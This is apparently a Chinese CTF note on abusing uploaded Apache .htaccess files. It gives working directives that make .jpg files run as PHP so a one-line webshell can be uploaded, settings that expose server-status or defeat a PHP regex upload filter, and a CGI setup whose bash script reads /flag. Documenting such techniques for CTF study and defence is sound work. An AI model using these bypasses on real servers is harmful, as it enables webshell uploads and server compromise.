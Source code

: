 最开始接触.htaccess文件就是在CTF中接触到的，而后用到的次数也逐渐增多。

最常用的就是文件上传.htaccess，绕过后缀限制（在.htaccess有执行权限时）

1、.htaccess文件内容为
```
 AddType application/x-httpd-php .jpg
 
 AddHandler php5-script .jpg
 
```
 然后再上传后缀为jpg的一句话即可。

或者可以使用如下，将php转化成文本
```xml
<FilesMatch "\.ph.*$">
  SetHandler text/plain
</FilesMatch>
```

或者上传如下 然后访问server-status?refresh=5 来查看系统服务信息
```
SetHandler server-status
```

2. 如果检测后缀的正则表达式，且php同上为非nts，则可以上传.htaccess，内容如下
```
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
```
演示代码
```php
<?php
$filename = "1.php";
if (preg_match("/\.php/",$filename)) {
	echo "true";
}else{
	echo "false";
}
?>
```
在不存在.htaccess时运行
[![1L9O54.png](https://s2.ax1x.com/2020/02/13/1L9O54.png)](https://imgchr.com/i/1L9O54)

存在时，且内容与上相符时
 ![1LCEPH.png](https://s2.ax1x.com/2020/02/13/1LCEPH.png)

pcre.backtrack_limit 与 pcre.jit的解释在PHP手册的**PHP Manual›php.ini 配置›php.ini 配置选项列表**
![1LCoJH.png](https://s2.ax1x.com/2020/02/13/1LCoJH.png)
目的是让正则的回溯设置为0，从而让匹配失效

也就是说第一步先上传.htaccess，然后再上传php文件。

3.apache加载了cgi_module 还可使用如下
```xml
Options +ExecCGI
AddHandler cgi-script .xx
```
1.xx
```bash
#! /bin/bash

echo Content-type: text/html

echo ""

cat /flag
```
